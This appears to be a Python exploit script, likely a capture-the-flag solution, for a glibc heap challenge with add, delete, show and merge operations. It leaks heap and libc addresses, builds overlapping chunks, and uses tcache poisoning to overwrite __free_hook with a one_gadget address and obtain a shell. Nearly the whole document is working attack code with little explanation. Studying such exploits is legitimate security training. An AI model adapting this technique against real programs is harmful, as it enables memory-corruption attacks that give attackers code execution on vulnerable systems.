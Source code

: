 ```python
# leak libc & heap addr

add(0x80, "a"*0x80)# 0
add(0x80, "a"*0x80)# 1
add(0x80, "a"*0x80)# 2
add(0x80, "a"*0x80)# 3
add(0x80, "a"*0x80)# 4
add(0x80, "a"*0x80)# 5
add(0x80, "a"*0x80)# 6

add(0x80, "b"*0x80)# 7
add(0x10, "c"*0x10)# 8
add(0x80, "b"*0x80)# 9
add(0x18, "c"*0x18)# 10

for i in range(7):
	dele(i) # kong 0~6

dele(7) # kong 7
dele(9) # kong 9

add(0x8,"e"*8) # 0
show(0)
heap_addr = u64(p.recv(6+8)[-6:].ljust(8, "\x00")) - 0x6f0
print "heap addr is " + hex(heap_addr)
add(0x60,"e"*0x60) # 1

add(0x8,"e"*8) # 2
show(2)
addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc_addr = addr - 0x3ebd20
print "libc addr is " + hex(libc_addr)

one_gadget = libc_addr + 0x4f322
free_hook = libc_addr + libc.symbols['__free_hook']

add(0x60,"\x00" * 0x60) # 3

# make overlapping & getshell

add(0x1f8, "\x80" * 0x1f8) # 4
add(0x90, "\x80" * 0x90) # 5
add(0x280, "\x80" * 0x280) # 6
add(0x40, "\x80"*0x40) # 7
add(0x30, "\x00" * 0x30) # 9
dele(6) # kong 6
merge(4, 5) # 6 make 7's size bigger
dele(7) # kong 7
dele(9) # kong 9 0x30 tcache
fake_chunk = "a"* 0x40 + p64(0) + p64(0x41) + p64(free_hook) # overflow 
add(0x70, fake_chunk.ljust(0x70, "\x00")) # 7

add(0x30, "a"*0x30)
add(0x30, p64(one_gadget).ljust(0x30,"\x00")) # tcache poisoning

dele(3)

p.interactive()



```
